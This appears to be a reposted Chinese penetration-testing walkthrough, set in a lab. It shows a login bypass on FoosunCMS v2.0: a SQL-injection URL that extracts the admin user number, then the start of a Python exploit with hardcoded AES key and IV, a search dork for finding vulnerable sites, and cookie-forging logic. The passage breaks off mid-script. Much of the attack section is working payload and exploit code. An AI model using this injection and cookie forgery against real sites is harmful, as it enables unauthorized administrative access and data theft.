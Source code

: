 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/p7OouZ-49RqG_z46nakRbg)<table><tbody><tr><td width="557" valign="top" height="62"><section><strong>声明：</strong>该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。</section><section>请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</section></td></tr></tbody></table>

原文地址：

https://blog.csdn.net/weixin_44991517/article/details/91355442  

**声明：**此次渗透环境为实验环境，仅供渗透实验参考

**内网漫游拓扑图**

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qJrn43rqDW0X3fPoPYlLK9vKUibwpuZgbRk4ibh3ic0SOSzZj21E88u0kw/640?wx_fmt=png)

**利用登录绕过漏洞进行后台**

目标网站 ip：192.168.31.55，将目标网站 ip 绑定到本地 hosts 文件下的 www.test.com 下（防止直接访问 ip 网站加载不全），访问 www.test.com 得到网站首页，发现是一个 html 静态网站  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qP6eiaAA6IJbcLKuo3GWDgLo20CcwOPicsFOCpqcdc5nuwLcDUngoDyFA/640?wx_fmt=png)

经过点击发现该网站是 FoosunCMS 搭建的经过点击发现该网站是 FoosunCMS 搭建的

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qLZ2mZEVoVLqDacJQ60qTbViascoibsLllO5wlLmnlnTb3lXOVEzzqxuA/640?wx_fmt=png)

版本为 v2.0，存在可以利用的漏洞，绕过管理员账号信息验证，直接进入后台，可谓是非常危险的一个利用漏洞，访问网站后台地址：`/manage/Index.aspx`

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qruMX30FU3FkYDnXNwpX5wWnylGoJa7yoibuzuhvrb9wpAZcHkhia7X9w/640?wx_fmt=png)

搜索发现 FoosunCMS v2.0 有一个登录绕过漏洞，尝试登录绕过，访问下面链接得到 UserNumber

```
http://www.test.com/user/City_ajax.aspx?CityId=1%27%20union%20all%20select%20UserNum,UserNum%20from%20dbo.fs_sys_User%20where%20UserName=%27admin
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qPicEUca5XoPvze1Dx4WOo0mPuZEu6bsMvPkzZOA7X9ibtMmxgeRspSZg/640?wx_fmt=png)

发现得将 UserNumber 加密后拼接成 cookie 即可成功登录

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qQNiagv2DiaiaBLMGxAOyjQhx1rq0gaDhicnHr2ozMpQznmnwibgibDibJBaTw/640?wx_fmt=png)

直接用 sql 注入拿到 UserNumber，然后再与 UserName 等拼接，构造 cookie 直接以管理员权限登录，Exp 代码如下：

```
#coding:utf-8
import argparse
import urllib
import traceback
import base64
from Crypto.Cipher import AES
from binascii import b2a_hex, a2b_hex
###############################
##search keyword：##
##inurl:/manage/Login.aspx   ##
###############################
KEY = 'Guz(%&hj7x89H$yuBI0456FtmaT5&fvHUFCy76*h%(HilJ$lhj!y6&(*jkP87jH7'
IV = 'E4ghj*Ghg7!rNIfb&95GUY86GfghUb#er57HBh(u%g6HJ($jhWk7&!hg4ui%$hjk'
def parse_args():
  parser = argparse.ArgumentParser()
  parser.add_argument("-u", "--url", help="the url", required=True, nargs="+")
  return parser.parse_args()
def run(url):
  try:
      usernumber = get_usernumber(url)
      if usernumber is not None:
          encrypt_cookie = generate_cookie(usernumber)
          #写入cookie中
```